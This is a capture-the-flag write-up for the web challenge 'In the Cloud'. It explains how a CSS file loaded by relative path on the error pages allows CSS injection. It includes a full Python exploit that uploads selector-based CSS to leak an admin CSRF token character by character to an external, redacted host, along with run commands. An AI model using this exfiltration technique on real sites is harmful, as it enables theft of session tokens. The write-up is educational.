







# **_In the Cloud_**
### Hard: 700 pts

> A platform that would serve as a cloud for attackers has been discovered. An important file is auto-copied into each user's directory when creating their account, however it can only be read by the admin. Find a way to do this.


> Challmaker: sc0r7

### Recognition phase



We have on this app we can create an account log into it and post our files which would be available to download for only 5 minutes.

Every uploaded file is located at `users/<username>/<filaname>` and trying to access it via url we get a 403. 



We also see that every user have a default file `users/<username>/flag` and it is what we're looking for.
Trying to download it we get a message this message

**Only admin csrf token can read the flag.**

This tells us that we gotta find a way to look for the admin CSRF token as it is the only one that is authorized to download this file.

We also have `bounty.php` page where we can provide an admin a link to look for.


### Exploit phase


So at first I tried every possible way to upload a php to the server but i always got the same message



I then looked for an XSS and didn't find anything profitable but something rather funny



But this won't help much or at least i didn't dig much onto that. Skipping all the other tricks tried i will head right to the real solve.

By taking a closer look at the error pages (403, 404...) we can see that a CSS file is referenced using a relative path.
```html
    <link rel="stylesheet" href="style.css">
```
What i mean by relative path is that whenever a page triggers one of these errors the app will try to load the CSS from the given page that triggered that error. And we can confirm this by taking a look at the inspector.



Knowing that we can then assume that by trying to access `/users/<username>` which normally throws a 403 if the folder contain one of our file named style.css it will be relatively loaded at `/users/<username>/style.css` and this opens up a way for CSS injection. We could then use a **_CSS Data Exfiltration_**.

This is a very interesting exploit as it shows how little flaws in security are exploitable. (_Must be crazy to find this exploit lol_)

So here is a beautiful blog that explains it: [CSS Injection](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/)

I then built an exploit script to:

- Create a file named style.css in my user directory
- Send the link of my user directory to the admin


```python
import http.client
import os
import uuid
import sys
import requests

boundary = str(uuid.uuid4())
headers = {
    'Content-Type': f"multipart/form-data; boundary={boundary}",
    'Cookie': "session=REDACTED; PHPSESSID=REDACTED"
}

conn = http.client.HTTPConnection("ctf.hackerlab.bj", 2020)

key = sys.argv[1]

if len(key) == 64:
    print("Token fully retrieved")

data = f"""
  input[name="csrf"][value^="{key}a"] {{
    background: url(https://REDACTED/?q=a)
  }}

  input[name="csrf"][value^="{key}b"] {{
    background: url(https://REDACTED/?q=b)
  }}

  input[name="csrf"][value^="{key}c"] {{
    background: url(https://REDACTED/?q=c)
  }}

  input[name="csrf"][value^="{key}d"] {{
    background: url(https://REDACTED/?q=d)
  }}

  input[name="csrf"][value^="{key}e"] {{
    background: url(https://REDACTED/?q=e)
  }}

  input[name="csrf"][value^="{key}f"] {{
    background: url(https://REDACTED/?q=f)
  }}

  input[name="csrf"][value^="{key}0"] {{
    background: url(https://REDACTED/?q=0)
  }}

  input[name="csrf"][value^="{key}1"] {{
    background: url(https://REDACTED/?q=1)
  }}

  input[name="csrf"][value^="{key}2"] {{
    background: url(https://REDACTED/?q=2)
  }}

  input[name="csrf"][value^="{key}3"] {{
    background: url(https://REDACTED/?q=3)
  }}

  input[name="csrf"][value^="{key}4"] {{
    background: url(https://REDACTED/?q=4)
  }}

  input[name="csrf"][value^="{key}5"] {{
    background: url(https://REDACTED/?q=5)
  }}

  input[name="csrf"][value^="{key}6"] {{
    background: url(https://REDACTED/?q=6)
  }}

  input[name="csrf"][value^="{key}7"] {{
    background: url(https://REDACTED/?q=7)
  }}

  input[name="csrf"][value^="{key}8"] {{
    background: url(https://REDACTED/?q=8)
  }}

  input[name="csrf"][value^="{key}9"] {{
    background: url(https://REDACTED/?q=9)
  }}
  """


payload = (
    f"--{boundary}\r\n"
    f"Content-Disposition: form-data; name=\"files[]\"; filename=\"style.css\"\r\n"
    "Content-Type: text/css\r\n"
    "\r\n"
    f"{data}\r\n"
    f"--{boundary}\r\n"
    f"Content-Disposition: form-data; name=\"csrf\"\r\n"
    f"\r\n"
    f"REDACTED\r\n"
    f"--{boundary}--\r\n"
)

conn.request("POST", "/cloud.php", body=payload, headers=headers)

response = conn.getresponse()
data = response.read()

conn.close()

res = requests.post('http://ctf.hackerlab.bj:2020/bounty.php', headers={
        "Cookie": "session=REDACTED; PHPSESSID=REDACTED"
    }, data={
        "url":"/users/giga/",
        "csrf":"REDACTED"
    })
```

To use this script you have to run it with at first an empty string check which char is reflected in your serv, add it to your _know token part_ and then re-run it again.

```sh
➜  cloud python3 test.py ""
➜  cloud python3 test.py "0"
➜  cloud python3 test.py "0f"
➜  cloud python3 test.py "0f"
➜  cloud python3 test.py "0f4"
➜  cloud python3 test.py "0f47"
➜  cloud python3 test.py "0f47"
➜  cloud python3 test.py "0f478"
...
```

Sometimes it doesn't automatically works so i had to run it some more time to get the next char.



After a bunch of time running the exploit we finally get the token. By accessing 
`/cloud.php?csrf=<TOKEN>&filename=flag` we get the flag




##### _By w1z0z - (l3gm1nn)_